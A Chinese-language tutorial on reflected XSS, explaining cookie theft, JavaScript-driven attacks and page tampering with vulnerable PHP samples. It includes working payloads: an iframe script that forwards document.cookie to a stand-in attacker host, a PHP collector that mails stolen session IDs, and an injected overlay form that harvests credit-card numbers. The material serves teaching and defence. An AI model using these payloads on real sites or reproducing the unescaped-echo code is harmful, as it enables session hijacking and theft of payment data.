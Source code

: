 跨站脚本（基础篇）之攻击手段与影响
=================================================================
为了更好地理解`XSS`的攻击方法与影响，首先让我们来看一下 **`XSS`被恶意使用的`3`种方式**：
+ **窃取`Cookie`值**
+ **通过`JavaScript`攻击**
+ **篡改网页**

### XSS窃取Cookie值
假设以下`PHP`脚本是搜索页面的一部分。该页面需要用户登录后才能使用，页面上显示的是搜索关键词。
```php
<?php
    session_start();
    //登录校验（略）
?>
<body>
检索关键词：<?php echo $_GET['keyword']; ?><br>
以下略
</body>
```
先来看一下正常情况，假设关键词为“Haskell”，URL如下：http://example.jp/43/43-001.php?keyword=Haskell 。

再看一下攻击的例子：http://example.jp/43/43-001.php?keyword=<script>alert(document.cookie)</script>

上面这个攻击的例子中，**保存在`Cookie`中的会话`ID(PHPSESSID)`会被显示出来。表明外部注入的`Javascript`成功
读取到了会话`ID`**。

#### 使用被动攻击盗取他人的Cookie值
能够显示自己的会话`ID`对于攻击者来说并无太大意义，**在实际的攻击中，攻击者需要将存在隐患的网站的用户引诱至恶意网站**。
以下就是恶意网站的示例：
```php
<html><body>
商品大甩卖
<br><br>
<iframe width=320 height=100 src="http://example.jp/43/43-001.php?keyword=<script>window.location='http://trap.example.com/43/43-901.php?sid='%2Bdocument.cookie;</script>">
</frame>
```
**恶意网站的`HTML`使用了`iframe`元素来显示存在隐患的网站的页面（`/43/43-001.php`），并对其实施`XSS`攻击**。
```
实际的攻击中，攻击者会通过设置CSS将iframe部分隐藏，以不被用户看到
```
攻击流程：
+ 恶意网站的`iframe`中显示出存在隐患的网站
+ 存在隐患的网站遭受攻击后，`Cookie`值被添加到`URL`的查询字符串中，页面跳转到信息收集页面
+ 信息收集页面将接收到的`Cookie`值通过邮件发送给攻击者

以下为收集信息用的脚本，它会将收集到的会话`ID`发送给攻击者的邮箱（假定为`wasbook@example.jp`）。
```php
<?php
    mb_language('Japanese');
    $sid = $_GET['sid'];
    mb_send_mail('wasbook@example.jp','攻击成功','会话ID:' . $sid, 'From: cracked@trap.example.com');
?>
<body>攻击成功<br>
<?php echo $sid; ?>
</body>
```
如此这般，**如果用户是在登录了存在隐患的网站之后浏览的恶意网页**，就会中了`XSS`的招而使自己的会话`ID`通过邮件发送给攻击者。
攻击者利用得到的会话`ID`，就可以伪装成其他用户肆意忘为。

### 通过JavaScript攻击
在上面的例子中，攻击者利用`JavaScript`读取到了用户的`Cookie`值，然而，事实上利用`JavaScript`实施的攻击却远不止如此。
另外，随着`Ajax`技术的风靡，通过`JavaScript`调用`Web`应用的各种功能的程序（`API`）在网站中的分量正在逐步增加。
由于`API`也能被恶意用于实施攻击，因此，综合使用`XSS`与`JavaScript`的攻击实施起来反而变得更容易了。

#### 篡改页面
示例，某新发布的手机预购网站。该网站由于存在`XSS`漏洞，因此便能够对网页中的`HTML`元素进行添加/更改/删除，
或者更改表单发送的目标。

网页脚本的主干内容如下。由于该页面兼任着输入页面和编辑页面，因此各个输入框都设置了初始值。而`XSS`漏洞就存在于此。
```php
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN">
<html>
<head><title>全新手机预约</title></head>
<body>
<form action="" method="POST">
姓名<input size="20" name="name" value="<?php echo @$_POST['name']; ?>"><br>
地址<input size="20" name="addr" value="<?php echo @$_POST['addr']; ?>"><br>
电话号码<input size="20" name="tel" value="<?php echo @$_POST['tel']; ?>"><br>
型号<input size="10" name="kind" value="<?php echo @$_POST['kind']; ?>"><br>
数量<input size="5" name="num" value="<?php echo @$_POST['num']; ?>"><br>
<br>
<input type=submit value="申请"></form>
</body>
</html>
```
**虽然该网站没有认证功能，但同样能对其实施`XSS`攻击**。

以下`HTML`(`43-902.html`)为对“某新款手机的预约网站”进行`XSS`攻击的恶意网页。
**该页面同时也可以作为不使用`JavaScript`的`XSS`攻击的示例**，页面上通过样式将攻击用表单的提交
按钮伪装成了链接的样子。
```php
<html>
<head><title>使用信用卡预约全新手机</title></head>
<body>
现在可以使用信用卡预约手机，赶紧下单吧。
<BR>
<form action="http://example.jp/43/43-002.php" method="POST">
<input name="name" type="hidden" value='">
    </form><form style=top:5px;left:5px;position:absolute;z-index:99;background-color:white 
    action=http://trap.example.com/43/43-903.php method=POST>请使用信用卡支付预购定金<br>姓名
    <input size=20 name=name><br>地址<input size=20 name=addr><br>电话号码<input size=20 name=tel>
    <br>型号<input size=10 name=kind>数量<input size=5 name=num><br>信用卡号<input size=16 name=card>
    有效期限<input size=5 name=thru><br><input value=申请 type=submit><br><br><br><br></from>'><!-注入的HTML->

<input style="cursor:pointer;text-decoration:underline;color:blue;
border:none;background:transparent;font-size:100%;" type="submit" value="手机预约中心"> <!-伪装成链接的按键->
</form>
</body>
</html>
```
恶意网页通过下列手段隐藏原先的`form`并添加新的`form`，从而改变页面：
+ **使用</form>使原先页面的`form`元素结束**
+ **添加新的form元素，并指定`style`如下：**
    + 通过指定绝对座标将`form`的位置定位于左上角
    + 将`z-index`设置为很大的值（`99`），确保其堆叠顺序在原先`form`的前面
    + 将背景色设计为白色，从而隐藏原先的`form`
+ **将`action`的`URL`指定为恶意网站**
















